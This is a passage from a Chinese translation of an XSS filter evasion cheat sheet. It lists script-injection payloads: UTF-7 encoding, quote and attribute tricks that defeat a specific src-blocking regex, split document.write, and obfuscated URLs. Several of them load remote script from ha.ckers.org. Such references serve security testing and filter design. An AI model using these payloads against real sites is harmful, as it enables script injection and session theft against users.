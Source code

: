     <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">

-----
##UTF-7编码##
如果存在xss的页面没有包含页面charset header，或是对于任何被设为UTF-7 的浏览器，我们可以利用下面的代码。（感谢Roman Ivanov 的提供），点击这儿为这个例子。（如果页面设置是自动识别编码且content-types 没有被覆盖，在ie浏览器或使用了IE渲染引擎的 Netscape 8.1，则你不需要声明 charset ）在没有改变编码的情况下它是不能工作在任何现代浏览器，这也是为什么它被标记为完全不支持。Watchfire发现这个漏洞在Google的 自定义 404 脚本中.

    <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

-----
##使用HTML 引用封装的xss##
它是被测试在ie，具体因情况而异。这个向量是为了绕过那些可以输入 "&lt;SCRIPT>" 但不允许输入 "&lt;SCRIPT SRC..."，通过正则"/&lt;script[^>]+src/i"进行过滤的xss过滤器。

    <SCRIPT a=">" SRC="http://ha.ckers.org/xss.js">

为了执行xss代码在那些允许输入"&lt;SCRIPT>" 但不允许 "&lt;script src..."（通过正则拼配"/&lt;script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"来过滤）   这个是重要的，因为我已经看到这个正则在实际环境中被使用。  

    <SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

另一个逃避相同正则 "/&lt;script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"过滤的xss代码

    <SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
    
再一个xss例子去绕过相同的过滤器，对于"/&lt;script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的正则过滤。我知道，我说过我将不会去痛痛快快的聊减灾技术。但是这是我所看到的唯一例子在允许用户输入&lt;SCRIPT>但是不允许通过src加载远程脚本的过滤器。（当然，还有一些其他方法去处理它，如果它们允许&lt;SCRIPT> ）

    <SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

最后一个绕过"/&lt;script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"正则匹配的例子，通过重音符。（无法工作在firfox）

    <SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>

这个xss例子押注于那些并不去拼配一对引号，而是去发现任何引号后就立即结束一个参数字符串的正则过滤器。

    <SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

这xss仍然让我担心， as it would be nearly impossible to stop this without blocking all active content:

    <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>

##URL 字符串绕过##
这里假设 "http://www.google.com/" 这种形式的url在语法上是不被过滤器允许的。

**IP代替域名**

    <A HREF="http://66.102.7.147/">XSS</A>

**URL 编码**

    <A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

**双字节编码**
（注意：有其他的双字节编码变种。请参考下面混淆后的ip地址为更多信息）

    <A HREF="http://1113982867/">XSS</A>


  [1]: http://ha.ckers.org/xsscalc.html
  [2]: http://ha.ckers.org/xsscalc.html
  [3]: http://ha.ckers.org/xsscalc.html
  [4]: http://help.dottoro.com/
  [5]: http://help.dottoro.com/ljfvvdnm.php
  [6]: https://tools.ietf.org/html/rfc2397
  [7]: http://ha.ckers.org/xsscalc.html